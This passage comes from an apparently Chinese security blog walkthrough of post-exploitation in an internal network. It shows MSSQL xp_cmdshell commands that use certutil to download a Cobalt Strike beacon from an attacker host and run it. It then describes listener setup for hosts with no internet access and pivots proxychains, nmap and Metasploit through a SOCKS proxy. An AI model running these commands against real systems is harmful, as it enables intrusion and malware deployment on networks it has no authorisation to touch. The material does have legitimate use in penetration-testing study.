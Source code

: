   *   * 

    
    
    EXEC master..xp_cmdshell 'certutil -urlcache -split -f http://192.168.186.3/beacon.exe C:\ProgramData\beacon.exe'EXEC master..xp_cmdshell 'C:\ProgramData\beacon.exe'

![](https://gitee.com/fuli009/images/raw/master/public/20210826123228.png)![]()  

 **CobaltStrike监听设置**

  * 单主机上线：`CobaltStrike->Listeners->Add->127.0.0.1:60020`；

  * 多主机上线：`CobaltStrike->Listeners->Add->192.168.186.3:60020`；

  *  **注：** 目标主机为双网卡时必须用不出网IP段的内网IP地址进行监听才能上线不出网主机；

  

 **上线至MSF的利用姿势**

Kali攻击机上编辑/etc/proxychains.conf文件，底部添加一条socks4代理：127.0.0.1:60000，添加完成后先执行以下几条命令来验证下是否已经与不出网IP段通了？

  *   *   *   * 

    
    
    root@kali:~# proxychains telnet 192.168.186.4 1433root@kali:~# proxychains curl http://192.168.186.4root@kali:~# proxychains nmap -sT -Pn 192.168.186.4[...SNIP...]

  

如果通了就再用proxychains来启动msfconsole，用不出网IP段的内网IP地址进行监听即可。原理大家都懂，就不实操截图了...。

  *   * 

    
    
    root@kali:~# proxychains msfconsole -q[...SNIP...]

  

* * *

  
关注公众号回复“9527”可免费获取一套HTB靶场文档和视频，“1120”安全参考等安全杂志PDF电子版，“1208”个人常用高效爆破字典，“0221”2020年酒仙桥文章打包，还在等什么？赶紧点击下方名片关注学习吧！

* * *

 **推 荐 阅 读**

  
  
  
[![](https://gitee.com/fuli009/images/raw/master/public/20210826123229.png)](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247487086&idx=1&sn=37fa19dd8ddad930c0d60c84e63f7892&chksm=cfa6aa7df8d1236bb49410e03a1678d69d43014893a597a6690a9a97af6eb06c93e860aa6836&scene=21#wechat_redirect)[![](https://gitee.com/fuli009/images/raw/master/public/20210826123230.png)](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247486961&idx=1&sn=d02db4cfe2bdf3027415c76d17375f50&chksm=cfa6a9e2f8d120f4c9e4d8f1a7cd50a1121253cb28cc3222595e268bd869effcbb09658221ec&scene=21#wechat_redirect)[![](https://gitee.com/fuli009/images/raw/master/public/20210826123231.png)](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247486327&idx=1&sn=71fc57dc96c7e3b1806993ad0a12794a&chksm=cfa6af64f8d1267259efd56edab4ad3cd43331ec53d3e029311bae1da987b2319a3cb9c0970e&scene=21#wechat_redirect)

* * *
